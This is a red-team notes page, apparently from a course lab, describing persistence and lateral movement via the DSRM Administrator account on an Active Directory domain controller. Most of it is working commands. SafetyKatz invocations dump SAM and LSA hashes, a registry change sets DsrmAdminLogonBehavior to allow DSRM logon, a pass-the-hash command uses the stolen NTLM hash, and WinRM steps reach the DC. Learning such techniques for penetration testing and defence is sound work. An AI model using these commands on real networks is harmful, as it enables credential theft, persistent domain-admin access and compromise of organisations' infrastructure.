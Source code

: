 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DSRM

Every Domain Controller (DC) contains a **built-in local Administrator account** used for Directory Services Restore Mode (DSRM). This account is created during DC promotion and protected with a password (`SafeModePassword`) that is **often never rotated post-deployment** — making it a valuable and persistent credential target.

<figure><img src="../../../.gitbook/assets/dsrm_config (1).png" alt=""><figcaption></figcaption></figure>

Although this Administrator account is local to the DC and not part of AD, if the DC is misconfigured, the DSRM account can be abused for [Pass-the-Hash (PtH)](../lateral-movement/pass-the-hash.md) attacks. With Domain Admin (DA) privileges, its NTLM hash can be extracted using tools like [SafetyKatz](../ad-tools/safetykatz.md):

```powershell
# Extract the DSRM password hash (requires DA privileges)
SafetyKatz.exe "token::elevate" "lsadump::sam" "exit"
```

To confirm it belongs to the DSRM account and not the DA, compare it with the output of:

```powershell
# Extract the DA password hash
SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

By default, the DSRM Administrator cannot log in while the system is running in normal (non-DSRM) mode. To enable login using the DSRM account, the registry key on the DC must be modified:

{% code overflow="wrap" %}
```powershell
# Allow DSRM account login in normal mode
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```
{% endcode %}

Once enabled, a PtH attack can be perform using the DSRM account’s hash — note that the domain must be set to the **DC's hostname**, not the AD domain (as it would be for an [Overpass-the-Hash](../lateral-movement/overpass-the-hash.md) attack):

{% code overflow="wrap" %}
```powershell
# PtH with DSRM credentials
SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:administrator /ntlm:<ntlm> /run:powershell.exe" "exit"
```
{% endcode %}

To access the DC via WinRM (e.g., using PowerShell remoting), ensure the host is trusted and reachable:

{% code overflow="wrap" %}
```powershell
# Add the DC as a trusted host (required to access it with RC4 via WinRM)
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

# Access the DC via WinRM using the NT hash
Enter-PSSession -cn 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```
{% endcode %}

This technique allows lateral movement directly into the Domain Controller using a long-lived, often-overlooked local account. While powerful, it depends on misconfiguration and the attacker having DA rights for hash extraction and registry changes.
